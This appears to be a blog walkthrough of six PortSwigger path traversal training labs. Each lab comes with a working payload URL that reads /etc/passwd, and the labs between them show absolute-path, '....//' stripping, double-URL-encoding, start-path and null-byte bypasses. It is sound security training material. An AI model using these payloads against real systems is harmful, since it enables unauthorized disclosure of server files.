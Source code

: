# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), simple case

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


we start by accessing the page source code and copied the path to the image file:


```http
https://0a36005e034cede280fe3198000b00f4.web-security-academy.net/image?filename=48.jpg
```

we now modify this link to the path of `/etc/passwd` :

```http
https://0a36005e034cede280fe3198000b00f4.web-security-academy.net/image?filename=/../../../etc/passwd
```

and we solved the lab:


![1695712761088.png](https://blog.cyb3rguru.tech/posts/portswigger/dir_trav/images/1695712761088.png)



# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences blocked with absolute path bypass


This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images. supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


Accessing the challenge link; we try fuzzing for the directory traversal vulnerability as done earlier in the first lab

we copy the address of one of the images and editted it as follows:

```http
https://0ad1000e03af75ed84db10bf006600f6.web-security-academy.net/image?filename=/etc/passwd
```

we use the absolute file path to access the etc/passd file and solved the lab:

![1695715319507.png](https://blog.cyb3rguru.tech/posts/portswigger/dir_trav/images/1695715319507.png)




# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences stripped non-recursively

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

After fuzzing we use the following link to access the /etc/passwd file

```http
https://0a200069044e71f880564996008f0009.web-security-academy.net/image?filename=....//....//....//....//etc/passwd
```

as you could see, we added `....//` at the beginning of each traversal, this is done to bypass the stripping of the traversal sequences. These revert to simple traversal sequences when the inner sequence is stripped.

sending this request solves the lab:

![1695715831462.png](https://blog.cyb3rguru.tech/posts/portswigger/dir_trav/images/1695715831462.png)


# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences stripped with superfluous URL-decode


This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

In this challenge we tend to bpyass the stripping of traversal in the web server in a multipart/form-data request to it.

bypassing this kind of sanitization by URL encoding, or even double URL encoding, the `../` characters. This results in `%2e%2e%2f` and `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also work.

we used the second option of encoding the traversal in this lab we use the following:

```http
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

this is simply the traversal payload we have been using in the previous lab url-encoded twice, decoding it twice gives us back the payload:

 ![1695716524822.png](https://blog.cyb3rguru.tech/posts/portswigger/dir_trav/images/1695716524822.png)



we send this request in burp:

 ![1695716550939.png](https://blog.cyb3rguru.tech/posts/portswigger/dir_trav/images/1695716550939.png)

and we got the following response:

 ![1695716595099.png](https://blog.cyb3rguru.tech/posts/portswigger/dir_trav/images/1695716595099.png)

And we solved the lab:

 ![1695716627989.png](https://blog.cyb3rguru.tech/posts/portswigger/dir_trav/images/1695716627989.png)




# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), validation of start of path

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

This lab talks about the validation of the start path where the server fetchs the image content from, to solve this lab we simply traverse out of this lab and access the passwd file using the following payload:

```http
https://0a0b004103a4630d803ed106005f00c2.web-security-academy.net/image?filename=/var/www/images/../../../../../etc/passwd
```

sending this request solves the lab:

 ![1695716925240.png](https://blog.cyb3rguru.tech/posts/portswigger/dir_trav/images/1695716925240.png)


# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), validation of file extension with null byte bypass

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

In this lab, our aim is to bypass the extension added at the end of the file name in this case the .png extension added by default, the trick here is to use the null byte to escape it so as to retain the filename, we use the url encoded null byte `%00` and append it at the end of our filename including the .png extension: 

```http
https://0a2800b70336a269800ed0a20025001c.web-security-academy.net/image?filename=../../../../../etc/passwd%00.png
```

sending this request solves the lab:

 ![1695717283024.png](https://blog.cyb3rguru.tech/posts/portswigger/dir_trav/images/1695717283024.png)



And that's the end of the path travesal labs on portswigger!!!!

